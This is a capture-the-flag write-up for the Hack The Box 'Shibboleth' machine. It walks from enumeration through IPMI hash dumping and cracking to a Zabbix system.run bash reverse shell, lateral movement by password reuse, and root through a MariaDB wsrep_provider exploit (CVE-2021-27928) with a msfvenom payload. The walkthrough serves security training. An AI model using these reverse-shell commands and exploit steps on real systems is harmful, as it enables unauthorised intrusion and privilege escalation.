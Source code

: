 ## Enumeration

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb
```

```bash
echo "10.10.11.124 shibboleth.htb" | sudo tee -a /etc/hosts
```

## HTTP

Right at the bottom of the application we find "Powered by enterprise monitoring solutions based on Zabbix & Bare Metal BMC automation". After a google search we deduce that Zabbix and BMC (monitoring solutions) could be running on an UDP endpoint.

Let's start fuzzing

```bash
gobuster -q dir -u http://shibboleth.htb -w /SecLists/Discovery/Web-Content/big.txt -t 200       
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/] 
/server-status        (Status: 403) [Size: 279]     
```

Nothing of interest, let's move on to vhost fuzzing

```bash
ffuf -u 'http://shibboleth.htb/' -H "Host: FUZZ.shibboleth.htb" -w 
/SecLists/Discovery/Web-Content/big.txt -mc 200

monitor 
monitoring 
zabbix
[Status: 200, Size: 3686, Words: 192, Lines: 30] 
[Status: 200, Size: 3686, Words: 192, Lines: 30] 
[Status: 200, Size: 3686, Words: 192, Lines: 30]
```
All vhost end up in the same zabbix login page. 

Now we can enumerate the UDP endpoint

```bash
sudo nmap -F -sUV shibboleth.htb

PORT    STATE SERVICE  VERSION
623/udp open  asf-rmcp
```

The remote host is running an Alert Standard Format (ASF) aware device that can be 
controlled remotely using Remote Management and Control Protocol (RMCP) on port 623/udp.

Based of the following article:
[A Penetration Tester's Guide to IPMI and BMCs | Rapid7 Blog](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/)

We'll use Metasploit for discovering the IPMI version.

```bash
msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
[+] 10.10.11.124:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

So we have IPMIv2.0 and it supports multiple user auth. In the same article we read that v2.0 is vulnerable to cipher 0 bypass, and there's a module to verify the vulnerability in metasploit.

```bash
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > run

[*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
[+] 10.10.11.124:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Moving on we'll use `impi_dumphashes` from metasploit.

```bash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:f7a4e4468202000036eb579e59edd3307774a8af69ab3db619b07694fb92dcad75d0dd03899f6a4aa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:1f5f87aaf9c940551ed4ffea4d0fcc9ced1f5822
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Crack it with hashcat

```bash
hashcat -m 7300 hash rockyou.txt
```

The password is "ilovepumkinpie1".

## Exploitation
Login to the Zabbix app with the obtained admin creds. We can execute remote commands via Item Keys ([here](https://sbcode.net/zabbix/agent-execute-python/)). Navigate to Configurations -> Hosts -> Items. Up on the right corner click on "create item", once there under key input field you can execute a remote OS command with ‘system.run’ like this:

```
system.run[/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.5/4444 0>&1",nowait]
```

If it fails to connect, search the item via the name field, find and run the "execute now" button.

We obtain a shell on the filesystem as user `zabbix`:

```bash
zabbix@shibboleth:/$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

Enumerate the rest of the users:

```bash
zabbix@shibboleth:/$ grep 'bash' /etc/passwd 
root:x:0:0:root:/root:/bin/bash
ipmi-svc:x:1000:1000:ipmi-svc,,,:/home/ipmi-svc:/bin/bash
```

The above user `ipmi-svc` is re-using the same password, so we can make a lateral move:

```bash
zabbix@shibboleth:/$ su ipmi-svc 
Password:
ipmi-svc@shibboleth:/$ id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
```

Enumerating the filesystem we come across a database password (the user name and database can be found on the same file).

```bash
ipmi-svc@shibboleth:/$ grep -iR 'password' /etc/zabbix/ 2>/dev/null 
[..] 
/etc/zabbix/zabbix_server.conf: DBPassword=bloooarskybluh
```

We can verify that mysql is running on the localhost and connect to it using the above creds:

```bash
ipmi-svc@shibboleth:/$ mysql -u zabbix -p -D zabbix
[..]
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04
[..]
```

Based on the version of the database we can gain root access via a RCE vulnerability ([CVE-2021-27928](https://www.cvedetails.com/cve/CVE-2021-27928/))

Following the [this PoC](https://github.com/Al1ex/CVE-2021-27928) we can execute to get a privileged shell:

```bash
MariaDB [zabbix]> SET GLOBAL wsrep_provider="/tmp/exploit.so";
```

where `exploit.so` is an `elf-so` payload we tranfered on the target's `tmp` directory:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=9002 -f elf-so -o 
exploit.so
```